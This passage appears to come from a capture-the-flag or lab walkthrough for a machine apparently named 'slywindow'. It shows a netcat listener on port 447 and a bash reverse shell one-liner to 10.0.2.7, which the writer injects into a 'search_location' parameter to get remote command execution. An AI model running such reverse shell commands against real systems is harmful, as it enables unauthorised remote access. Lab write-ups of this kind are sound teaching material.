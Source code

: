 ![RCE](../../assets/images/slywindow/20250801_042548_image.png)

On the attacking machine, we open a netcat listener on port 447 to wait for the reverse connection.

```bash
nc -lvnp 447
```

We generate a reverse shell with our attacking machine's IP, encode it in URL and inject it into the `search_location` parameter, using the appropriate syntax to achieve remote command execution.

```bash
bash -c 'bash -i >& /dev/tcp/10.0.2.7/447 0>&1'
```

We obtain access to an interactive shell on the target server.

![](../../assets/images/slywindow/20250801_043020_image.png)
